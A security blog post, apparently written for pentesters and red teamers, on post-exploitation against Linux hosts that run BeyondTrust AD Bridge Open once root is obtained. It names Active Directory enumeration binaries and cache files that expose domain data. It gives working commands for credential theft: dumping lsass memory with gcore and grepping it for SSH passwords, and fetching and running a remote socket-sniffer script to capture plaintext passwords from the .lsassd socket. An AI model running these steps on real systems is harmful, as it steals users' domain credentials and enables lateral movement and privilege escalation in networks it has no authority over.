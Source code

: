 ```yaml
---
title: "BeyondTrust AD Bridge Open Post-Exploitation"
layout: "post"
---
```


[AD Bridge Open](https://github.com/BeyondTrust/pbis-open) is an open-source community project sponsored by BeyondTrust Corporation. It is essentially a wrapper application that will facilitate the integration of \*nix hosts with Microsoft Active Directory (sets up Kerberos and LDAP Auth).


**This post describes a few post-exploitation tips, were ROOT access was obtained on a Linux host that is using BeyondTrust AD Bridge Open.**


Also the post content is based on the last open source version that is available on GitHub (AD Bridge Open 9.1.0.551). The project was discontinued and moved to an enterprise closed source model in 2021.



## Builtin binaries and files for situational awareness

AD Bridge Open installs and uses several binaries that are very useful for enumerating an Active Directory environment, if the Linux box was streamlined and does not have any LDAP or SMB clients installed (those are typically present on Linux distributions).

The software keeps a cache file of domain users and associated Active Directory information in this file `/var/lib/pbis/db/lsass-adcache.filedb.DOMAIN.LOCAL`.

So without making any request to the Domain Controllers it is possible to access a trove of useful information about the AD environment.

<p align="center">
  <img src="/assets/posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation/z_pbis-1.png">
</p>



Another interesting file is `/var/lib/pbis/db/lwi_events.db`. If the Active Directory has been hardened and the Machine Account Quota is set to zero for all regular domain accounts, by reading this file one can get the domain account that was used to join the Linux machine to the domain - again without making a single request to the Domain Controllers.

<p align="center">
  <img src="/assets/posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation/z_pbis-2.png">
</p>



As for useful LOLBIN's for enumeration and situational awareness, they can all be found in the directory `/opt/pbis/bin/`

<p align="center">
  <img src="/assets/posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation/z_pbis-3.png">
</p>


These are pretty much self explanatory:

 - `/opt/pbis/bin/enum-groups`
 - `/opt/pbis/bin/enum-members`
 - `/opt/pbis/bin/enum-objects`
 - `/opt/pbis/bin/enum-users`
 - `/opt/pbis/bin/list-groups-for-user`
 - `/opt/pbis/bin/find-by-sid`
 - `/opt/pbis/bin/find-group-by-id`
 - `/opt/pbis/bin/find-group-by-name`
 - `/opt/pbis/bin/find-objects`
 - `/opt/pbis/bin/find-user-by-id`
 - `/opt/pbis/bin/find-user-by-name`
 - `/opt/pbis/bin/ldapsearch`


`/opt/pbis/bin/get-dc-list DOMAIN.LOCAL` Will output the names and IPs of all Domain Controllers.


`/opt/pbis/bin/adtool` Can query and modify objects in Active Directory - eg: add user or computer accounts.


`/opt/pbis/bin/get-dc-list/update-dns` Registers IP addresses and the corresponding PTR records in DNS via a secure dynamic DNS update that could be handy for ADIDNS Zone poisoning.


`/opt/pbis/bin/lwio-copy` Is an SMB client that can be used to transfer files.



You can find more details about the binaries function, command flags and whatnot on the [official documentation](https://www.beyondtrust.com/docs/ad-bridge/getting-started/linux-admin/index.htm).




# Domain credentials for lateral movement and privilege escalation

As with any pentesting or red teaming engagement I want to obtain Domain credentials to move laterally and/or escalate privileges.

SSH authentication is integrated with Active Directory using AD Bridge Open, so I can dump the LSASS process memory, run strings and grep for SSH authentications and/or passwords.

<p align="center">
  <img src="/assets/posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation/z_pbis-4.png">
</p>


GDB can be attached using one of the AD Bridge Open binaries,
```bash
/opt/pbis/bin/lwsm gdb lsass
```

<p align="center">
  <img src="/assets/posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation/z_pbis-5.png">
</p>


Or I can just run:
```bash
gcore `ps aux | grep '[l]sass' | awk '{print $2}'` && strings core.* | grep -C 8 -Hnia --color=auto "ssh"
```

<p align="center">
  <img src="/assets/posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation/z_pbis-6.png">
</p>


The only issue with this method is that it's a bit hit-and-miss with the grep "offsets". Sometimes I get the user credential within the offsets, other times I get nothing and the credential is somewhere inside the ~1Gb memory dump file.


So I decided to look again at the files being used by AD Bridge Open, and found several of Unix Sockets on the directory `/var/lib/pbis/`

<p align="center">
  <img src="/assets/posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation/z_pbis-7.png">
</p>


`.lsassd` appeared interesting, so I decided to sniff its traffic.

I'll need to install wireshark/tcpdump and socat and then run a small bash script to accomplish this.

Since I have to wait for an SSH connection, I'm going to run everything from a Tmux session. That way I can detach it and leave it running.

```bash
yum -y install wireshark socat tmux
tmux
wget https://gist.githubusercontent.com/ricardojba/05d8ca06717292798054ca968082b70a/raw/5eea101b9054b19aa21714b2cbcbc5bc2173cdf4/unixsock-sniff.sh -O unixsock-sniff.sh
chmod 755 unixsock-sniff.sh
./unixsock-sniff.sh -u /var/lib/pbis/.lsassd
```

If the Linux box is often accessed by users or there's some automated scanning software that performs authenticated scans against the box (eg: Nessus), I can quickly capture an SSH login and the plain-text password.

```bash
tshark -x -r /tmp/unix_socket_dump.pcap | grep -C 8 sshd
```
<p align="center">
  <img src="/assets/posts/2023-03-15-BeyondTrust-AD-Bridge-Open-Post-Exploitation/z_pbis-8.png">
</p>


Pretty sure that there's a lot that I didn't cover or missed, but this will help get us started in a pentest or red team of \*nix hosts with BeyondTrust AD Bridge Open installed.

